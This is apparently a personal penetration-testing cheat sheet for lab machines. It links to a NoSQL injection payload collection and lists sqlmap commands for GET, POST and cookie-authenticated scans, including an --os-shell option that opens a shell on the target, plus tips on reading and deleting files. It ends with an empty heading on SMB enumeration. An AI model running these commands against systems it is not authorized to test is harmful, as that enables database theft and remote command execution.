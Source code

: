## NoSQL
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#tools
![image](https://user-images.githubusercontent.com/19478700/216854327-26df334a-9923-410e-801e-116df26a3dcb.png)


## sqlmap
```s
GET request
sqlmap -u http://10.129.7.81/f
hboard.php?search=a -p id

sqlmap -u http://site-to-test.com/test.php?id=1*

-u: URL to scan

-p: parameter to scan

*: Parameter to scan (if -p switch is not provided)

POST request
We can provide the data being passed in the POST request body to scan by the SQLMap tool.

sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user

–data = POST data

PHP + SQL parameter (with cookie authentification)
sqlmap --cookie=PHPSESSID=0r7rr0vcsrekau1453acmvdrg5 --os-shell -u http://10.129.7.81/dashboard.php?search=a
```
**Use --os-shell Prompt for an interactive operating system shell**

SQLinjection in login:
Save request as file from burpsuite
![image](https://user-images.githubusercontent.com/19478700/215235215-5f998e1d-4cbc-4359-b369-a24b05a59384.png)
If File permission is available we can red files on te FS
![image](https://user-images.githubusercontent.com/19478700/215235347-475e8017-49f6-4470-9f21-c586e3e6ce57.png)
delete file to check privileges

(ippsec - trick)

### Test req captured with burpsuite (only one parameter)
 ```bash
 sqlmap -r admin.req -p total_service --batch
```

# SMB Active Directory

## Enumeration: 
### Shares
![image](https://user-images.githubusercontent.com/19478700/214690302-187aaf2a-b88e-4461-ad92-c8e5241239b2.png)

